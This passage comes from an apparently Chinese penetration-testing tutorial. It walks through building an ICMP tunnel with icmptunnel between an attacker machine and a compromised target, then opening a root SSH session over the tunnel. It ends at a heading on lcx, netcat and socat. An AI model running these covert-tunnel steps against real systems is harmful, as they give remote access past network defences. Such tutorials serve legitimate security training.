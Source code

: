 




```none
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all		# 禁用 ICMP echo 回复，防止内核自己对ping包进行响应
./icmptunnel -s	# 开启服务端模式
```

在攻击机上新开启一个终端运行：







```none
/sbin/ifconfig tun0 10.0.0.1 netmask 255.255.255.0	# 指定一个网卡tun0，用于给隧道服务器端分配一个IP地址 (10.0.0.1)
```

在目标机上运行：







```none
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all
./icmptunnel 172.16.214.6
```

在目标机上新开启一个终端运行：







```none
/sbin/ifconfig tun0 10.0.0.2 netmask 255.255.255.0	# 指定一个网卡tun0，用于给隧道服务器端分配一个IP地址 (10.0.0.2)
```

至此，已经通过 ICMP 建立了一个点对点隧道。

在攻击机上，尝试通过 ssh 进行连接，可以看到通过刚才建立的隧道成功连接到目标机。







```none
ssh root@10.0.0.2
```



![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-04-07_16-35-09.png)



# 0x07 lcx、netcat 和 socat 的使用

## 1、lcx 使用
